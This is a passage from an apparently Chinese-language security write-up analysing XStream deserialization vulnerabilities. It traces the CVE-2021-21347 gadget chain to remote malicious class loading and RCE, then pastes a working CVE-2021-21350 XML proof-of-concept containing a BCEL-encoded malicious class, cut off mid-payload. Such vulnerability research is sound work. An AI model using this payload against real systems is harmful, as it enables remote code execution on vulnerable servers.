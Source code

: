 这里先粘贴一下此时整个 Base64Data 对象的封装情况。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxxfsHsHEic8NwRzJDhEsic4w4ys5ibXjD0ick5okZwsBzTeDbCdA4ggw7dg/640?wx_fmt=png)

跟入 ByteArrayOutputStreamEx.readFrom() 方法，经过几次嵌套调用后，来到了 SequenceInputStream.nextStream() 方法中，这里的关键是调用了属性 e，也就是 POC 中就封装进去的 MultiUIDefaults$MultiUIDefaultsEnumerator 对象的 hasMoreElements() 方法

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxDicFZLanBXLrdnPrZQiawXgKzF9OZqPoMVd118ukJmDYQUeMacaIgRAQ/640?wx_fmt=png)

继续跟进，就会看到调用了 JavacProcessingEnvironment$NameProcessIterator.hasNext() 方法

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxOG9BndXsEjw2r8EnFEnMlbKUnBDFvLhrNo8I3u8NHP50zgUclicTibrA/640?wx_fmt=png)

当跟入到 hasNext() 方法方法后可以看到该方法中的关键点在于，调用 processorCL 的 loadClass 方法

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxd8dCIr9wniaSvlebK0HUonjk8HkFEs7c6kiataoFFt0ibuhyKdEhoEOXg/640?wx_fmt=png)

我们直接从 POC 中来查看 processorCL 就是封装进去的 URLClassLoader 对象，而 var1 就是封装入 names 属性中的 Arrays$ArrayList 对象中存储的字符串也就是恶意类的名字。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxQqQAOn4gaSoGucUp2viaEzLhnTlDlA6qFyHqpU9NodPeTQLJ3Ce4wzg/640?wx_fmt=png)

接下来的步骤就是通过 URLClassloader 去远程加载恶意类到本地 然后执行静态代码块中的恶意代码从而导致 RCE，这个过程就不进行深入赘述了，至此 CVE-2021-21347 漏洞分析完毕

**0x05  CVE-2021-21350**
========================

粘贴一下 POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQ$ddN$c20$Y$3d$85$c9$60$O$e5G$fcW$f0J0Qn$bc$c3$Y$T$83$89$c9$oF$M$5e$97$d9$60$c9X$c9$d6$R$5e$cb$h5$5e$f8$A$3e$94$f1$x$g$q$b1MwrN$cf$f9$be$b6$fb$fcz$ff$Ap$8a$aa$83$MJ$O$caX$cb$a2bp$dd$c6$86$8dM$86$cc$99$M$a5$3egH$d7$h$3d$G$ebR$3d$K$86UO$86$e2$s$Z$f5Et$cf$fb$B$v$rO$f9$3c$e8$f1H$g$fe$xZ$faI$c6T$c3kOd$d0bp$daS_$8c$b5Talc$8bxW$r$91$_$ae$a41$e7$8c$e9d$c8$t$dc$85$8d$ac$8dm$X$3b$d8$a5$d2j$y$c2$da1$afQ$D$3f$J$b8V$91$8b$3d$ecS$7d$Ta$u$98P3$e0$e1$a0$d9$e9$P$85$af$Z$ca3I$aa$e6ug$de$93$a1$f8g$bcKB$zG$d4$d6$Z$I$3d$t$95z$c3$fb$e7$a1$83$5bb$w$7c$86$c3$fa$c2nWG2$i$b4$W$D$b7$91$f2E$i$b7p$80$rzQ3$YM$ba$NR$c8$R$bb$md$84$xG$af$60oH$95$d2$_$b0$k$9eII$c11$3a$d2$f4$cd$c2$ow$9e$94eb$eeO$820$3fC$d0$$$fd$BZ$85Y$ae$f8$N$93$85$cf$5c$c7$B$A$A</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='com.sun.org.apache.bcel.internal.util.ClassLoader'>
                  <parent class='sun.misc.Launcher$ExtClassLoader'>
                  </parent>
```